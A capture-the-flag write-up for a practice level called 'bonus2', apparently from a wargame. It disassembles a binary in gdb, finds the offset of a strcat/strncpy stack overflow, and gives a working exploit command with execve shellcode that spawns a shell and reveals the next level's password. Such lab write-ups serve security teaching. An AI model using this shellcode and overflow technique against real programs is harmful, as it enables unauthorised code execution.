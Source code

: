 

rep stos %eax,%es:(%edi)   <====> memset(buffer, 0, sizeof(buffer));

The "rep" prefix specifies that the instruction should be repeated multiple times,

while the "stos" instruction stores the value in the %eax register to the destination pointed to by %es:%edi.

In other words, this instruction performs a repeating store of the value in the %eax register 
to consecutive memory locations starting from the address specified by %es:%edi.

This is a kind of memset on the buffer start at address esp+0x50

```
(gdb) x/4wx $esp+0x50
0xbffff680:	0x08048287	0x00000000	0x00c30000	0x00000001

(gdb) rep stos %eax,%es:(%edi) 

(gdb) x/4wx $esp+0x50
0xbffff680:	0x00000000	0x00000000	0x00000000	0x00000000
```

```
mov    0xc(%ebp),%eax
add    $0x8,%eax
mov    (%eax),%eax

movl   $0x20,0x8(%esp)
mov    %eax,0x4(%esp)

lea    0x50(%esp),%eax
add    $0x28,%eax
mov    %eax,(%esp)
call   0x80483c0 <strncpy@plt>


movl   $0x20, 0x4(%esp)   ; maximum number of characters to copy (32)
mov    %eax, (%esp)       ; source buffer (src)
lea    0x50(%esp), %eax   ; destination buffer (dest)

The parameters are passed in the following order:
dest: 0x50(%esp)
src: %eax
n: 0x20 (32)

strncpy((char*)0x50(%esp) + 0x28, (const char*)%eax, 0x20);


buffer = 0x50
strncpy(buffer + 0x28, argv[2], 0x20);
```

```
run AAAA BBBB

0xbffff690:	0x41414141	0x00000000	0x00000000	0x00000000
0xbffff6a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff6b0:	0x00000000	0x00000000	0x42424242	0x00000000
0xbffff6c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff6d0:	0x00000000	0x00000000	0x00000000	0xbfffff05

(gdb) p/d 0xbffff6b8 - 0xbffff690
$1 = 40
(gdb) p/d 0xbffff6d8 - 0xbffff6b8
$3 = 32

```

```
 0x08048629 <+256>:	rep movsl %ds:(%esi),%es:(%edi)
 
 Move every dword of esi in edi
 copied all content of buffer to esp
```

function greetuser

```
0x08048494 <+16>:	 cmp    $0x2,%eax
0x080484e9 <+101>:	mov    $0x804872a,%edx

(gdb) x/s 0x804872a
0x804872a:	 "Goedemiddag! "

   0x0804850a <+134>:	lea    0x8(%ebp),%eax
   0x0804850d <+137>:	mov    %eax,0x4(%esp)
   0x08048511 <+141>:	lea    -0x48(%ebp),%eax
=> 0x08048514 <+144>:	mov    %eax,(%esp)
   0x08048517 <+147>:	call   0x8048370 <strcat@plt>

strcat("Goedemiddag! " , av[1])

puts("Goedemiddag! AAAA")
```

LANG=fi

```
run $(python -c 'print "A" * 40') "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaabaaacaaadaaaeaaafaaagaaahaaa

SIGSEGV
0x61666161

cyclic -l 0x61666161 = 18
```

```
run  $(python -c 'print "A" * 19 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" ') $(python -c 'print "B" * 18 + "\xbf\xff\xf6\x50"[::-1]')

0xbffff650:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff660:	0x6a414141	0x5299580b	0x732f2f68	0x622f6868
0xbffff670:	0xe3896e69	0x80cdc931	0x42424242	0x42424242
0xbffff680:	0x42424242	0x42424242	0xf6604242	0x0000bfff


/home/user/bonus2/bonus2  $(python -c 'print "A" * 19 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" ') $(python -c 'print "B" * 18 + "\xbf\xff\xf6\x50"[::-1]')

$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

Using the full path to a binary:

Reproducibility: When you use the full path, it becomes easier to reproduce the same behavior across different systems or environments.





